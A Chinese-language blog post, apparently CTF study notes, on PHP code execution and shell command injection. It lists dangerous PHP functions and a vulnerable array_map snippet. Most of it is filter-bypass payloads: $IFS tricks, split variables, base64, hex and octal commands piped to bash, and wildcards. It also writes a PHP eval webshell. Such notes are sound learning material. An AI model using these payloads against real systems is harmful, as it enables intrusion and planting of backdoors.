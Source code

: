 ```yaml
---
layout: post
title: 命令执行
categories: [web,rce]
---
```


# 远程代码执行

## 常见的函数

> 1.eval($_POST['cmd']);  参数当php代码执行  ,需以分号结尾

> 2.assert(代码) 不需以分号结尾

> 3.preg_replace(‘正则规则’,'替换成的字符'，‘被替换的字符’)  规则里面的`/e`是将替换完的字符转变为eval()方式

> 4.array_map(callable,array1[,array2···]) callable是回调函数,执行array的值

```php
<?php
  $func=$_GET['fun'];
  $cmd=$_POST['cmd'];
  $array[0]=$cmd;
  $new_array=array_map($func,$array);
  echo $new_array;
?>
例：
  url?func=assert;
  post:cmd=phpinfo();
```

> 5.creat_function(‘’,$_POST['cmd']) 从传递的参数中创建一个匿名函数，并为其返回唯一的名称
> 
> `'xxxx'`包裹的不会被解析，而`"xxxx"` 包裹的会被转义

> 6.call_useer_func(callback,parameter1[,...])

> ```
> 例：call_user_func("assert",$_POST['cmd']);
> ```

> 7.array_filter(array,callback) 如：array_filter(`$`array,`$`func)

## 双引号

> 在php中双引号的变量会被解析，单引号不会，因此可以用`{${phpinfo()}}`包裹

<br/>

# 远程系统命令执行

## 常见函数

> system():显示输出
> 
> exec(cmd,output)：仅执行,只返回结果的最后一行，可以使用第二个参数输出到指定数组
> 
> shell_exec()：通过shell环境执行和输出
> 
> passthru()：在unix系统命令并显示原始输出
> 
> penti_exec()
> 
> popen()：打开进程文件指针,与`exec()`类似
> 
> proc_popen()：执行一个命令并且打开用来输入/输出的文件指针
> 
> 反引号命令执行

## 常用特殊字符  

```
> 1|2：直接执行2
> 
> 1||2：仅1为假2执行
> 
> 1&2：1可真可假
> 
> 1&&2：1只能为真2才执行
> 
> 1;2：2都被执行,`;`是在shell环境下的连续命令
```  

## 常见的绕过方法

### 1.空格绕过

常见的绕过符号有：
`$IFS$9` 、`${IFS}` 、`%09`(php环境下)、 重定向符`<>`、`<、`

### 2.拼接绕过

```php
#执行ls命令：
a=l;b=s;$a$b
#cat flag文件内容：
a=c;b=at;c=f;d=lag;$a$b ${c}${d}
#cat test文件内容
a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$b test
```

### 3.编码绕过

```php
#base64
echo "Y2F0IC9mbGFn"|base64 -d|bash ==>cat /flag
echo Y2F0IC9mbGFn|base64 -d|sh==>cat /flag
#hex
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
#oct/字节
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
#i也可以通过这种方式写马
内容为<?php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```

### 4.单引号和双引号绕过

```
c'a't test
c"a"t test
```

### 5.反斜杠绕过

```
ca\t test
```

### 6..通过$PATH绕过

```
#echo $PATH 显示当前PATH环境变量，该变量的值由一系列以冒号分隔的目录名组成
#当执行程序时，shell自动跟据PATH变量的值去搜索该程序
#shell在搜索时先搜索PATH环境变量中的第一个目录，没找到再接着搜索，如果找到则执行它，不会再继续搜索
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
`echo $PATH| cut -c 8,9`t test
```

### 7.linux中查看文件内容的命令

```
cat、tac、more、less、head、tail、nl、sed、sort、uniq
```

### 8.通配符绕过

```
cat t?st
cat te*
cat t[a-z]st
cat t{a,b,c,d,e,f}st
```

### 9.如果过滤了&_等字符

```php
取反
<?php
  $a = "phpinfo";
  echo urlencode(~$a);
?>
#%8F%97%8F%96%91%99%90
(~%8F%97%8F%96%91%99%90)();
```

### 10.内联执行

```

```

### tee命令
Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。  
```
?url=l\s / | tee 1.txt   
之后访问我们传入的文件1.txt，发现命令被执行  
再传入 ?url=tac /flllll\aaaaaaggggggg | tee 2.txt   #然后访问2.txt  
```

### 其他
#### system('ls') : 列举当前目录下的所有文件
#### system("find / -name flag*")：查找所有文件名匹配flag的文件